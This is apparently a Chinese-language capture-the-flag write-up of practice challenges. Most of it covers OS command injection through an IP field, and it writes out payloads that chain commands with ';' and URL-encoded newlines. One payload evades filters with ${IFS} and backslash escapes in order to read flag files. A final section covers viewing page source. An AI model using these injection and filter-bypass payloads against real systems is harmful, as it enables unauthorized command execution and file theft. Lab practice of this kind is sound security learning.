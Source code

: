## 24.过滤目录分隔符

![image-20241021221005774](D:\ctf wp\40.1.assets\image-20241021221005774.png)

127.0.0.1&ls查看目录 ![image-20241021221514217](D:\ctf wp\40.1.assets\image-20241021221514217.png)

用cd代替cat![image-20241021221523498](D:\ctf wp\40.1.assets\image-20241021221523498.png)

 直接使用cat f* 读取文件（127.0.0.1;cd flag_is_here;cat f*|base64），查看页面源代码，得到flag    ![image-20241021221755477](D:\ctf wp\40.1.assets\image-20241021221755477.png)



## 25.过滤运算符

![image-20241021223234479](D:\ctf wp\40.1.assets\image-20241021223234479.png)

禁用了运算符，只能用127.0.0.1;ls![image-20241021223342184](D:\ctf wp\40.1.assets\image-20241021223342184.png)

输入127.0.0.1;cat flag_69322730510223.php  查看源代码拿到flag

或者127.0.0.1; base64 flag_69322730510223.php 



## 26.综合过滤练习

![image-20241021224258967](D:\ctf wp\40.1.assets\image-20241021224258967.png)

过滤了这些字符

?ip=127.0.0.1%0als![image-20241022143159817](D:\ctf wp\40.1.assets\image-20241022143159817.png)

![image-20241022143217172](D:\ctf wp\40.1.assets\image-20241022143217172.png)

?ip=127.0.0.1%0acd${IFS}fla\g_is_here%0aless${IFS}fla\g_215942426811575.php![image-20241022143228268](D:\ctf wp\40.1.assets\image-20241022143228268.png)



## 27.[Week 1] hello_web

![image-20241022145154597](D:\ctf wp\40.1.assets\image-20241022145154597.png)

按右键发现不行![image-20241022145224283](D:\ctf wp\40.1.assets\image-20241022145224283.png)

连按F12发现能打开![image-20241022145258146](D:\ctf wp\40.1.assets\image-20241022145258146.png)

找到一半flag![image-20241022145326845](D:\ctf wp\40.1.assets\image-20241022145326845.png)

搜索/fl14.php![image-20241022145439018](D:\ctf wp\40.1.assets\image-20241022145439018.png)

![image-20241022150246794](D:\ctf wp\40.1.assets\image-20241022150246794.png)拿到第二段

## 28.[Week 1] hello_http
